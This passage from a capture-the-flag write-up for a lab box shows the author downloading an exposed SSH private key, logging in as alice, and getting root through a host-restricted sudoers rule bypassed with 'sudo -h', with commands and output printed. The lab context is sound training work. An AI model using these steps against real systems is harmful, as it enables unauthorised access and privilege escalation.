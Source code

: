 I downloaded the file on my box and successfully logged in as alice!

```bash
$ wget ctf.thm:8080/id_rsa
--2021-01-09 20:01:16--  http://ctf.thm:8080/id_rsa
Resolving ctf.thm (ctf.thm)... 10.10.247.107
Connecting to ctf.thm (ctf.thm)|10.10.247.107|:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1679 (1.6K) [application/octet-stream]
Saving to: ‘id_rsa’

100%[========================================================================>] 1,679       --.-K/s   in 0.004s  

2021-01-09 20:01:17 (429 KB/s) - ‘id_rsa’ saved [1679/1679]

$ chmod 600 id_rsa
$ ssh alice@ctf.thm -i id_rsa 
Last login: Fri Jul  3 02:42:13 2020 from 192.168.170.1
alice@looking-glass:~$ 
```

### gaining root priveleges

after some digging aound, I found that `alice` can execute a `/bin/bash` as `root` with no password on a host called `ssalg-gnikool`
so I that's what I did

```bash
alice@looking-glass:~$ ls /etc/sudoers.d/
README  alice  jabberwock  tweedles
alice@looking-glass:~$ cat /etc/sudoers.d/alice 
alice ssalg-gnikool = (root) NOPASSWD: /bin/bash
alice@looking-glass:~$ sudo -h ssalg-gnikool /bin/bash 
sudo: unable to resolve host ssalg-gnikool
root@looking-glass:~# cd /root
root@looking-glass:/root# ls
passwords  passwords.sh  root.txt  the_end.txt
root@looking-glass:/root# ls passwords
passGenerator.py  wordlist.txt
root@looking-glass:/root# 
```
in there I found the second flag, reversed just like the first, and the script responsible for generating random passwords on each boot

### conclusion
this box has made me hate poems since with each user I got a new poem and I kept reading it and thinking it was some sort of a clue just to find out the solution was totally unrelated

